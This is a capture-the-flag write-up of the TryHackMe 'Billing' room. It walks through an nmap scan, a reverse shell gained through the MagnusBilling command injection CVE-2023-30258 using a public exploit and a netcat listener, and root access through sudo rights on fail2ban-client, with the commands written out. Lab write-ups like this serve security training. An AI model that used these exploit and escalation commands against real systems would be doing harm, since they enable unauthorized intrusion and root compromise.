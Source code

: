 ```yaml
---
title: Billing
date: 2025-04-15
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, rce, magnus_billing, sudo_permissions]     # TAG names should always be lowercase
comments: false
image: /assets/img/tryhackme/ctf/billing/banner.png
---
```


> Some mistakes can be costly.
>
>Gain a shell, find the way and escalate your privileges!
>
> **Note:** Bruteforcing is out of scope for this room.

## What is user.txt ?

We start off by an nmap scan :

```shell
$ nmap -p- -T4 -A 10.10.119.32
Starting Nmap 7.93 ( https://nmap.org ) at 2025-04-06 15:24 CEST
Nmap scan report for 10.10.119.32 (10.10.119.32)
Host is up (0.066s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79ba5d2335b2f025d7535ec5b9afc0cc (RSA)
|   256 4ec334af00b735bc9ff5b0d2aa35ae34 (ECDSA)
|_  256 26aa17e0c82ac9d99817e48f8773784d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/mbilling/
| http-title:             MagnusBilling
|_Requested resource was http://10.10.119.32/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
3306/tcp open  mysql    MariaDB (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=4/6%OT=22%CT=1%CU=31933%PV=Y%DS=2%DC=T%G=Y%TM=67F280E3
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M509ST11
OS:NW7%O6=M509ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   66.77 ms 10.14.0.1 (10.14.0.1)
2   65.36 ms 10.10.119.32 (10.10.119.32)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.38 seconds
```

It appears that there is an accessible web application on port `80`.

Connecting on it using Firefox, we find a login form for **MagnusBilling** which is a **VOIP billing** application :

![1](/assets/img/tryhackme/ctf/billing/1.png)

As we know from the challenge’s description, it’s useless to simply try a bruteforce on this login form. So we need to find more information to have login accesses.

By searching a bit the Internet, it appears that there is an **Unauthenticated RCE vulnerability** named as **CVE-2023-30258**.

On the MagnusBilling application 6.x and 7.x, we can run arbitrary commands via unauthenticated HTTP request. A piece of demonstration code is present in `lib/icepay/icepay.php`, with a call to an `exec()` which includes the **GET** parameter `“democ”`, which is not properly sanitised. So, after successful exploitation, we can arbitrarily run **OS commands**.

Also, I found a [github](https://github.com/hadrian3689/magnus_billing_rce/blob/main/README.md) posting a python code for the exploit which I decided to use for this challenge.

So I first start a listener using **netcat** :

```shell
$ nc -lvnp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
```

And then send the payload using the python script :

```shell
$ python3 magnusrce.py -t http://10.10.119.32/mbilling/ -lh 10.14.83.7 -lp 1337
CVE-2023-30258 Magnus Billing - Command Injection Vulnerability
Sending payload...
```

Then, right after, we get a connection back to our listener.

```shell
$ nc -lvnp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.119.32.
Ncat: Connection from 10.10.119.32:34044.
bash: cannot set terminal process group (680): Inappropriate ioctl for device
bash: no job control in this shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$
```

And as the vulnerability’s description suggested, we get a shell under the `asterisk` user.

So, we first [upgrade our shell](https://0xffsec.com/handbook/shells/full-tty/) to an interactive one for easier navigation.

After that, we can access the `/home` folder where we will find the directory of a user called **magnus**, with in it the **first flag**.

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ cd /home/magnus
asterisk@Billing:/home/magnus$ ls
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
asterisk@Billing:/home/magnus$ cat user.txt
THM{[REDACTED]}
```

## What is root.txt ?

We can enumerate the SUID/GUID files as well as any possible files that could help us to escalate our privileges, but this doesn’t show anything useful.

However, we can enumerate the sudo commands of our user using sudo -l, and see that we can NOPASSWD root rights on the fail2ban-client :

```shell
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

Can we do it anything with it ? Yes ! Because we can configure fail2ban and, as root, incite fail2ban to perform malicious action/execute commands.

First, we can restart Fail2ban to refresh the service.

```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client restart
Shutdown successful
Server ready
```

Then, we can use the set parameter of the fail2ban-client command to replace an action that exists with another one, that would allow us to read the `root.txt` file, by copying it.

```shell
# This way, we will trigger a rule that will copy the /root/root.txt file to /tmp and change its permissions to read it
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
```

In order to trigger the rule, we need to ban an IP.

```shell
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
```

Now, we can check if the rule was successfully executed, and it is, so we recover the **last flag** :

```shell
asterisk@Billing:/home/magnus$ ls /tmp
root.txt
asterisk@Billing:/home/magnus$ cat /tmp/root.txt
THM{[REDACTED]}
```